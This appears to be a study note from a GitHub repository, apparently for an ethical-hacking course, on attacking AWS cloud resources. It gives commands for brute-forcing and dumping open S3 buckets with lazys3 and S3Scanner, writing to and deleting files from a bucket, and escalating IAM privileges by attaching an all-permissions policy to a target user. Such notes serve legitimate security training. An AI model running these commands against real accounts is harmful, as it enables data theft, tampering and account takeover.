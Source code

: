 # Cloud Computing
> Cloud computing delivers various types of services and applications over the Internet. These services enable users to use software and hardware managed by third parties at remote locations. Some well-known cloud service providers are Google, Amazon, and Microsoft.


verview of Cloud Computing
- Cloud computing refers to on-demand delivery of IT capabilities, in which IT infrastructure and applications are provided to subscribers as metered services over a network. Cloud services are classified into three categories, namely infrastructure-as-a-service (IaaS), platform-as-a-service (PaaS), and software-as-a-service (SaaS), which offer different techniques for developing cloud.

Enumerate S3 Buckets using lazys3
- lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. This tool obtains the publicly accessible S3 buckets and also allows you to search the S3 buckets of a specific company by entering the company name.
- ` ruby lazys3.rb [Company] `

Enumerate S3 Buckets using S3Scanner
- S3Scanner is a tool that finds the open S3 buckets and dumps their contents. It takes a list of bucket names to check as its input. The S3 buckets that are found are output to a file. The tool also dumps or lists the contents of “open” buckets locally.
- ` python3 ./s3scanner.py sites.txt `
- Dump all open buckets and log both open and closed buckets in found.txt:
  - ` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt `
- Just log open buckets in the default output file (buckets.txt):
  - ` python3 ./s3scanner.py names.txt `
- Save the file listings of all open buckets to a file:
  - ` python ./s3scanner.py --list names.txt `


S3 buckets are used by customers and end users to store text documents, PDFs, videos, images, etc. To store all these data, the user needs to create a bucket with a unique name.

Listed below are several techniques that can be adopted to identify AWS S3 Buckets:

- Inspecting HTML: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
- Brute-Forcing URL: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
- Finding subdomains: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
- Reverse IP Search: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
- Advanced Google hacking: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets


Exploit Open S3 Buckets using AWS CLI
- The AWS command line interface (CLI) is a unified tool for managing AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- ` aws configure `
  - It will ask for the following details:
    - AWS Access Key ID
    - AWS Secret Access Key
    - Default region name
    - Default output format
- `aws s3 ls s3://[Bucket Name]`
- ` aws s3 mv Hack.txt s3://certifiedhacker1 `
- `  aws s3 rm s3://certifiedhacker1/Hack.txt  `


Overview of Privilege Escalation

- Privileges are security roles assigned to users for using specific programs, features, OSes, functions, files, code, etc. to limit access depending on the type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical and horizontal.
- Horizontal Privilege Escalation: An unauthorized user tries to access the resources, functions, and other privileges of an authorized user who has similar access permissions
- Vertical Privilege Escalation: An unauthorized user tries to access the resources and functions of a user with higher privileges such as application or site administrators


Escalate IAM User Privileges by Exploiting Misconfigured User Policy
- A policy is an entity that, when attached to an identity or resource, defines its permissions. You can use the AWS Management Console, AWS CLI, or AWS API to create customer-managed policies in IAM. Customer-managed policies are standalone policies that you administer in your AWS account. You can then attach the policies to the identities (users, groups, and roles) in your AWS account. If the user policies are not configured properly, they can be exploited by attackers to gain full administrator access to the target user’s AWS account.

` aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json `
- user-policy.json
```json
{

"Version":"2012-10-17",

"Statement": [
{

    "Effect":"Allow",

    "Action":"*",

    "Resource":"*"

}
]
}
```

- ` aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy `
-  ` aws iam list-attached-user-policies --user-name [Target Username] `
-  `  aws iam list-users `
-  List of S3 buckets: ` aws s3api list-buckets --query "Buckets[].Name" `
-  User Policies: ` aws iam list-user-policies `
-  Role Policies: `aws iam list-role-policies`
-  Group policies: `aws iam list-group-policies`
-  Create user: ` aws iam create-user `


